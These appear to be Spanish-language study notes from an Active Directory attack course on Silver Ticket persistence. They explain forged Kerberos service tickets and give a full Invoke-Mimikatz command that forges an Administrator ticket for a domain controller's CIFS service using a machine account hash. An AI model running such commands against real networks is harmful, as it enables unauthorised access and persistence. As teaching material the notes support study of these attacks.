 ![/assets/images/images_AD/Active%20Directory%20Domain%20Dominance/Untitled%201.png](/assets/images/images_AD/Active%20Directory%20Domain%20Dominance/Untitled%201.png)

**Domain Persistence - Silver Ticket**

- Un TGS válido (el boleto de oro es TGT).
- Cifrado y firmado por el hash NTLM de la cuenta de servicio (Golden ticket está firmado por hash de krbtgt) del servicio que se ejecuta con esa
cuenta.
- Los servicios rara vez comprueban PAC (Privileged Attribute Certificate).
- Los servicios permitirán el acceso únicamente a los propios servicios.
- Período de persistencia razonable (30 días predeterminados para las cuentas de equipo).

Mediante el hash de la cuenta de equipo del controlador de dominio, a continuación el comando proporciona
acceso a recursos compartidos en el controlador de dominio:

`Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /target:us-dc.us.techcorp.local /service:cifs
/rc4:f4492105cb24a843356945e45402073e /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`

Se puede utilizar un comando similar para cualquier otro servicio en un equipo. ¿Qué servicios? HOST, RPCSS, WSMAN y muchos más

![/assets/images/images_AD/Active%20Directory%20Domain%20Dominance/Untitled%202.png](/assets/images/images_AD/Active%20Directory%20Domain%20Dominance/Untitled%202.png)
